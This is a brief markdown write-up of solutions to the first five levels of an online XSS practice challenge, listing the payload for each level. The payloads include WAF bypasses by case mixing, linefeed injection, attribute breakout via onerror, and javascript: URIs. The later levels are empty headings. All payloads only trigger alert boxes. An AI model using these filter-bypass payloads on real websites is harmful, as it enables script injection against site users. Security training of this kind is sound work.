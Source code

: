 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

- param reflected in form post field (action)

```html
XSS&action=javascript:alert(1337)
``

## Level 6

## Level 7

## Level 8

## Level 9

## Level 10

